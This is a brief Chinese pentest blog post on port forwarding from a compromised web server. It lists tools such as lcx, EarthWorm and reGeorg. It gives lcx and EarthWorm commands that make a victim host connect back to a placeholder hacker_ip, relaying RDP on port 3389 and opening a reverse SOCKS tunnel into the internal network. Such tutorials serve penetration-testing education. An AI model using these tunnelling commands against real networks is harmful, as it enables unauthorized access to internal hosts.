 +++
date = "2016-08-08T19:33:45+08:00"
description = ""
draft = false
tags = ["端口转发"]
title = "端口转发"
topics = ["Pentest"]

+++

### 0x00 应用场景
* 内网IP的80端口通过端口映射到了外网IP的80端口上
* 内网的Web服务器通过外网IP反向代理(如Nginx)
也就是说Web服务器在内网中

### 0x01 判断Web是否为内网
* 向ping域名，查看IP是外网
* 用webshell查看ip却是内网IP

### 0x02 端口转发工具
* lcx
* htran
* [EarthWorm](http://rootkiter.com/EarthWorm/?_blank)
* netsh
* [reGeorg](https://github.com/sensepost/reGeorg?_blank)
* meterpreter porfwd

### 0x03 lcx端口转发
* Hacker：lcx.exe -listen 500 8888
* Victim：lcx.exe -slave hacker_ip 500 victim_ip 3389
* Hacker：cmd mstsc hacker_ip:500

![hacker运行lcx](/img/post/privilge_escalation_win_hacker_run_lcx.png)
![vimctim端运行lcx](/img/post/privilge_escalation_win_vimctim_run_lcx.png)
![hacker远程连接](/img/post/privilge_escalation_win_hacker_remote_conn.png)
![hacker远程连接成功](/img/post/privilge_escalation_win_hacker_remote_conn_success.png)

### 0x04 EarchWorm端口转发
* Hacker：./ew -s rcsocks -l 1080 -e 8888
* Victim：./ew -s rssocks -d hacker_ip -e 8888
![earchworm原理](/img/post/privilge_escalation_win_earchworm.png)
#### 1. 启动EarchWorm
![hacker服务器启动ew](/img/post/privilge_escalation_win_linux_run_ew.png)
![victim启动ew](/img/post/privilge_escalation_win_victim_run_ew.png)
![victim连接hacker服务器](/img/post/privilge_escalation_win_linux_get_victim_conn.png)
#### 2. hacker主机使用代理
![hacker内网主机设置代理1](/img/post/privilge_escalation_win_hacker_set_proxy1.png)
![hacker内网主机设置代理2](/img/post/privilge_escalation_win_hacker_set_proxy2.png)
#### 3. hacker内网主机连接目标的内网主机
![hacker连接内网主机](/img/post/privilge_escalation_win_ew_hacker_remote_conn.png)
![hacker连接内网主机成功](/img/post/privilge_escalation_win_ew_hacker_remote_conn_success.png)
